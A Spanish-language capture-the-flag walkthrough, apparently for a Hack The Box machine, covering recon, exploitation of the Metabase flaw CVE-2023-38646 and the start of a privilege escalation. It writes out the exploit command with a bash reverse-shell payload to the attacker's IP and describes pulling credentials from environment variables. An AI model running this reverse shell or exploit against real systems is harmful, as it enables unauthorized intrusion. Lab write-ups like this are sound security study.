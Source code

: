 Hacemos ping a la máquina:

![[Pasted image 20240511115610.png]]

Tenemos conectividad y un ttl de 63 que es próximo a 64 por lo que es una máquina Linux.

Ahora hacemos el reconocimiento de puertos:

![[Pasted image 20240511115847.png]]

![[Pasted image 20240511115855.png]]

Y ahora hacemos un reconocimiento más exhaustivo:

![[Pasted image 20240511120010.png]]

![[Pasted image 20240511120037.png]]

Tenemos que pasar la IP a etc/hosts para poner la redirección y ya veremos la web correctamente.

![[Pasted image 20240511120211.png]]

Y ahora ya vemos la web

![[Pasted image 20240511120253.png]]

Esta es la web, donde vemos un login, pero antes de mirarlo vamos a ver el código fuente aunque no hay nada muy interesante.

Si vamos al login nos sale esto:

![[Pasted image 20240511120424.png]]

Vamos a meter el subdominio en etc/hosts y vemos la web.

![[Pasted image 20240511120853.png]]


Y ahora en la web vemos esto:

![[Pasted image 20240511120956.png]]

Vemos que el software es metabase, vamos a investigar sobre ello.


Y si buscamos, hay un fallo ( CVE-2023-38646 ), el cual nos permite ver un token, que mediante un script en python, podemos obtener una revshell.

Vamos a descargarnos el script.

Ya lo tenemos, y buscamos esta url: http://data.analytical.htb/api/session/properties

Añadiendo la parte de /api/session/properties, vemos la información que necesitamos. En este caso, necesitamos un token para poder acceder.

![[Pasted image 20240511121414.png]]

Aquí tenemos el token que necesitamos, y ahora tenemos que tener el código de la revshell que queremos que nos de, en mi caso me voy a poner en escucha en el puerto 443:

![[Pasted image 20240511121625.png]]

Ahora, existe una web que nos proporciona revshells en función de los parámetros que ponemos:

![[Pasted image 20240511121736.png]]

En este caso me ha creado esta y es la que vamos a usar, aunque en el github del CVE, añade la palabra bash en vez de sh.

```
python3 main.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c 'bash -i >& /dev/tcp/10.10.14.11/443 0>&1'

```

Y lanzamos


![[Pasted image 20240511122211.png]]

Y ya hemos accedido a la máquina, ahora tratamos la bash.

![[Pasted image 20240511122721.png]]

Y ahora ya estamos dentro y podemos buscar información.

Ahora vemos cosas interesantes, como un .db, el cual seguramente contenga información para poder acceder por ssh.

Finalmente no es por ahí, si hacemos un env, con esto nos reportará información, y encontramos esto:
![[Pasted image 20240511124019.png]]
Y así podemos acceder, vamos a intentarlo por la web y por ssh.

![[Pasted image 20240511124107.png]]

![[Pasted image 20240511124117.png]]

Y hemos conseguido acceder y hemos conseguido la flag.

Ahora vamos escalar privilegios hasta root.

Si hacemos uname -a, vemos el tipo de ubuntu que tenemos:

![[Pasted image 20240511125914.png]]

Esta línea es la importante, ya que si buscamos en internet un exploit, nos sale una vulnerabilidad en la que ejecutando una línea somos root automáticamente:

![[Pasted image 20240511130001.png]]

Son los CVE :

- CVE-2023-2640
- CVE-2023-32629







